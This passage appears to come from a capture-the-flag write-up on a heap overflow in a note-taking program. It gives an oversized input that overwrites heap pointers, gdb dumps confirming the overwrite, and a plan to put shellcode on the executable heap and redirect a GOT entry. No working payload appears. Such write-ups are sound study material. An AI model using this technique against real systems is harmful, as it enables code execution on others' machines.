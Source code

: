 ```
Give the type of the Note:
1
Please enter one of the following option:
1 to add a Note.
2 to delete a Note.
3 to edit a Note.
4 to show a Note.
5 to exit.
Your Choice:
1
Give the type of the Note:
1
Please enter one of the following option:
1 to add a Note.
2 to delete a Note.
3 to edit a Note.
4 to show a Note.
5 to exit.
Your Choice:
3
Give the Note id to edit:
0
Give the type to edit:
2
Give your Note:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRAAAABBBB
```

The heap for note two now looks like this:

```
gdb-peda$ x/60wx 0x804d0c0
0x804d0c0:  0x46464646  0x47474747  0x48484848  0x49494949
0x804d0d0:  0x4a4a4a4a  0x4b4b4b4b  0x4c4c4c4c  0x4d4d4d4d
0x804d0e0:  0x4e4e4e4e  0x4f4f4f4f  0x50505050  0x51515151
0x804d0f0:  0x52525252  0x41414141  0x42424242  0x4242420a
0x804d100:  0x0000000a  0x00000000  0x00000000  0x00000000
```

We have overwritten the pointers. Furthermore, superkojiman noticed:

```
gdb-peda$ vmmap
Start      End        Perm  Name
<snip>
0x0804c000 0x0804e000 rwxp  [heap]
```

The heap is writeable **and** executable. This allows us to store shellcode on the heap. Now to find a way to get the heap address reliably (ASLR is enabled) and overwrite a GOT pointer with the location of our shellcode. 

